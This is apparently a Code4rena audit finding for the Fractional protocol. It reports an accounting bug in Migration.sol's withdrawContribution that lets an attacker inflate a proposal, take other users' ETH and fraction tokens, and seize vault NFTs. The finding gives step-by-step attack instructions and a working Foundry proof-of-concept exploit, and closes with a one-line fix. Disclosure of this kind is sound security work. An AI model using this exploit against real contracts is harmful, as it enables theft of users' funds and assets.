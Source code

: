 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Steal NFTs from a Vault, and ETH + Fractional tokens from users.](https://github.com/code-423n4/2022-07-fractional-findings/issues/27) 

# Lines of code

https://github.com/code-423n4/2022-07-fractional/blob/e2c5a962a94106f9495eb96769d7f60f7d5b14c9/src/modules/Migration.sol#L292


# Vulnerability details

## Impact
Steal NFTs from a Vault, and ETH + Fractional tokens from users.

## Description

The `Migration.sol` module expects users to join a proposal using the `join` function, and leave a proposal using the `leave` function, both functions update fraction and ether balances of the proposal *and* the caller.

The `withdrawContribution` function is meant to be used to retrieve ether and fractions deposited from an unsuccessful migration, but it can be called as well in proposals that have not been commited.

Unfortunately, the `withdrawContribution` function will issue a refund on fraction tokens and ether balances the user sent to a proposal but it will not update the variables `totalEth` and `totalFractions` (as `join` and `leave` do), leading to an inflation of ETH and fractional tokens if the user calls `join`, `withdrawContribution` and `join` again.

Exploiting this inflation bug, an attacker can steal all Ether and fractional tokens sent to a legit proposal by legit users of the community, and redirect them to an evil proposal that will win (because it has over 51% of token supply) and at the same time invalidate the legit proposal due to:

1- Lack of funds (they were stolen).

2- Only 1 LIVE proposal can be running at the same time.

A key element to take note is that only 1 proposal can be `LIVE`, but before a proposal goes `LIVE`, many can be created at the same time, and users can join those that resonate with them, sending their ETH and fractional tokens to support it. The vault will have a big amount of ETH and fractional tokens in these situations.

## Steps to reproduce
An attacker's will exploit the inflation bug as follow:

1- Wait until there's at least 50% of the total supply of fractional tokens in the vault, being stacked into one or several proposals.

2- Create an evil proposal with evil modules and inflate the amount of ETH and fractional tokens in your proposal up to the exact amount of the total ETH and fractional tokens in the vault.

3- Commit your proposal. That will send all ETH and fractional tokens in the vault to your proposal and `start` it.

Now that your proposal has over 51% total supply of fractional tokens in it and a lot of ETH stolen from members of the vault, many creative things can be done, including taking over the Vault's NFTs with an evil module once the proposal goes through.

**NOTE: In the `REJECTION_PERIOD` victims can buy tokens to try to stop the proposal from going through, but the price of every tokens is calculated using the `depositAmount` and `msg.value` (https://github.com/code-423n4/2022-07-fractional/blob/e2c5a962a94106f9495eb96769d7f60f7d5b14c9/src/modules/Buyout.sol#L86) both values manipulated by the attacker. **


## Proof of Concept
The proof of concept took 4 hours and 33 mins to be written, as I tried hard to get a clean, and easy to understand and reproduce PoC that illustrates the impact of the attack.

Everything was put inside a function filled with comments at every stage, that can be included within the Unit Tests of the project.

You can read the PoC or include the function in `test/Migration.t.sol` and call `forge test -vvv --match-test testProposalAttack` to execute it.


```
    function testProposalAttack() public {
        initializeMigration(alice, bob, TOTAL_SUPPLY, HALF_SUPPLY, true);
        (nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
        address[] memory modules = new address[](1);
        modules[0] = address(mockModule);

        // STEP 0
        // The attacker waits until a proposal with over 51% joins and a nice amount of ETH is made

        // STEP 1
        // Alice makes a legit proposal
        alice.migrationModule.propose(
            vault,
            modules,
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY * 2,
            1 ether
        );

        // STEP 3
        // Alice joins his proposal with 50 ETH and 5,000 tokens out of a total supply of 10,000
        alice.migrationModule.join{value: 50 ether}(vault, 1, 5000);

        // NOTE: In a real world scenario, several members will join Alice's legit proposal with their own ETH and tokens,
        // but to make this PoC easier to read, instead of creating several fake accounts,
        // let's have just Alice join his own proposal with 50% of token supply.

        // STEP 4
        // Bob makes an evil proposal, with evil modules to steal the vault's NFTs
        bob.migrationModule.propose(
            vault,
            modules,
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY,
            1 ether
        );

        // STEP 5
        // Bob joins and then withdraws from the proposal in loop, to inflate the ETH of his proposal
        // and total locked tokens (thanks to a bug in the `withdrawContribution` function)
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 24);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 101);


        // Let's do some accounting...
        (,,uint256 totalEth_AliceProposal,,,,,,) = migrationModule.migrationInfo(vault,1);
        (,,uint256 totalEth_BobProposal,uint256 _totalFractions,,,,,) = migrationModule.migrationInfo(vault,2);

        // Alice proposal has 50 ETH.
        assertEq(totalEth_AliceProposal, 50000000000000000000);

        // Bob's proposal has 50 ETH.
        assertEq(totalEth_BobProposal, 50000000000000000000);

        // He only put 10 ETH, but it shows 50 ETH because
        // we inflate it by exploiting the bug.

        // We can keep inflating it indefinitely to get any ETH
        // amount desired (up to the max ETH balance of the smart contract).

        // NOTE that the very REAL ETH Balance of the vault is only the 50 ETH (from Alice) + 10 ETH (from Bob) = 60 ETH.

        // We'll steal those 50 ETH from alice and all of his fractional tokens, to add them to our proposal now.

        // STEP 6
        // Bob calls commit to kickoff the buyout process
        bool started = bob.migrationModule.commit(vault, 2);
        assertTrue(started);

        // Final accounting:
        // Buyout now has 5,100 Fraction tokens from a total supply of 10,000 (that's 51% of total supply,
        // exactly what is required to win a proposal)
        assertEq(getFractionBalance(buyout), 5101);

        // and 50 ETH from Alice's proposal
        assertEq(getETHBalance(buyout), 50 ether);

        // Bob started with 100 ether and at this time it has 90 ether, as we only spent 10 ether
        assertEq(getETHBalance(bob.addr), 90 ether);

        // Bob only sent 101 tokens from his own fraction balance to his evil proposal, the rest were stolen
        // from Alice's proposal
        assertEq(getFractionBalance(bob.addr), 4899);

        // Next steps are straight forward, you can get creative and do many things that would make the PoC
        // unnecessarily long

        // Alice's proposal will revert if she tries to commit it, as only 1 proposal can be LIVE
        // at the same time. Also, there's not enough ETH in the contract to commit his proposal,
        // We are using all of his ETH in our own proposal.

```

## Tools Used
Run `forge test -vvv --match-test testProposalAttack` after preparing the testing environment as explained in https://github.com/code-423n4/2022-07-fractional#prepare-environment


## Recommended Mitigation Steps
Update the `proposal.totalEth` and `proposal.totalFractions` in the `withdrawContribution` function.

